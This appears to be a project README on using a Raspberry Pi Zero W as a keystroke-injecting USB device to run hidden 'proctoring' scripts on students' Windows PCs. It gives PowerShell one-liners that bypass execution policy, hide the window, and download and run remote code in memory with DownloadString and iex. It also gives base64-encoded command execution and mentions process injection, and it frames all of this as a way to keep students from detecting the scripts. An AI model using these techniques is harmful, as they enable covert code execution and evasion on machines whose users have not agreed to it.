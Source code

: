 # 1. Fileless Execution

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

Using the Raspberry Pi Zero W, HID mode, keystroke can be sent to execute "Run". Following which, additional keystrokes command can be sent from the examples below to conduct proctoring.  

With the Fileless Execution method, we do not need to copy any external binary executable/scripts to be able to conduct proctoring. Instead we utilize a Windows built-in software Powershell, to download additional scripts and run them purely in memory. 

Reference materials:
- https://www.mcafee.com/enterprise/en-us/assets/solution-briefs/sb-fileless-malware-execution.pdf
- https://www.varonis.com/blog/fileless-malware
- https://www.linkedin.com/pulse/go-hell-powershell-powerdown-attacks-kirtar-oza-cissp-cisa-ms-

## 1.1. Utilizing DownloadString and Invoke-Expression Parameters
```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('<proctoring script url>')
```
Executing the above allow us conduct proctoring directly in to the memory of the Student's PC.  
This is possible because of two Powershell command 
- "DownloadString" where it does not download any file to disk but copies content of the remote file. 
- "Invoke-Expression a.k.a iex" where it runs specified string as a command.

## 1.2. Utilizing EncodedCommand Parameters
To do this we must first, encode our script into base64 using the script below and taking note of the encoded string
```
$command = '<the whole script>'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
write-host $encodedCommand
```
After we know the encoded string, runnning the command below will allow us to conduct proctoring without needing to drop any files into the student's PC. In this case, we would not even need to have a remote script stored anywhere.
```
powershell.exe -executionpolicy bypass -w hidden -e <base64encodedstring>
```
The EncodedCommand a.k.a -e, will read the following given as a base64 string and proceed to execute it 

## 1.3 Additional Parameters
- WindowStyle (-w) hidden: This makes the Powershell operation stealth by hiding the program window away from the user
- Exec Bypass: bypass/ignore the execution policy like _Restricted_ which restricts the PS command from running
- Noprofile (-nop): Ignore the commands in the Profile file

## Pros:
- Not intrusive, no file will be downloaded and placed in the student's PC 
- Students have no access to the proctoring script at all 
- Execute in the background hidden
- When updating the proctoring script, proctors can just re-host the newest version on the remote server

## Cons:
- Proctoring Script have to be written in powershell language
- A remote server to serve the proctoring script from method 1.1
- For method 1.2, if there is any update on the proctoring script, encodedstring have to be reformed and HID keystroke commands have to be editted too on every single raspberry pi

# 2. Mass Storage 

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

In this method we utilize the Mass storage mode and HID mode of the composite Pi.  
1. We will be placing in the backing store (storage) created in the Pi. 
2. Once the Pi is connected, the emulated mass storage will be visible.
3. Inside the storage device, the proctoring script will then be present.
4. From there, we can send in keystrokes using the HID mode to execute the script from Windows built in programs (such as cmd.exe or powershell.exe) inside the emulated mass storage device in the Student's PC

## Pros:
- Not much pros

## Cons:
- Script is accessible to students which will allow them to study it and possbily find ways to avoid detection
- In the event of proctoring script updating, every Pi have to be updated manually

# 3. Pymem

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

This method allows the injection of python interpreter into any process. 

## Pros:
- NA 

## Cons: 
- Script that does the injection is presented in the Student's PC
- In the script that perform the injection, the proctoring features is exposed to the students. 

